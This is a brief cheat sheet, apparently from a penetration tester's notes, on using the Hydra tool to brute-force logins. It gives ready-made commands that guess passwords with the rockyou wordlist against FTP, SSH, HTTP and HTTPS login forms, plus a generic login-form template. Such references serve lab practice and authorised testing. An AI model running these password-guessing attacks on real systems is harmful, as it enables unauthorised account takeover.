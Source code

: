 ```yaml
---
title: Hydra 🐍
tags:
  - Tool
---
```

## Brute force ftp

````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

## Hydra for http form:

```shell
hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -s 80 IP_HOST http-head

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

## Brute force ssh:

- Use it when you can perform a redirection of the traffic to the ssh port but you have modified the configuration from the inside with socat

```shell
hydra -l USER -P /usr/share/wordlists/rockyou.txt ssh://IP_VICTIM:PORT
```

## Brute force login form:

```shell
hydra -L USERFILE -P PASSWORDFILE DOMAIN/IP METHOD "REDIRECTIONURL:PARAMETERS:FAILMESSAGE:H=COOKIES"
```

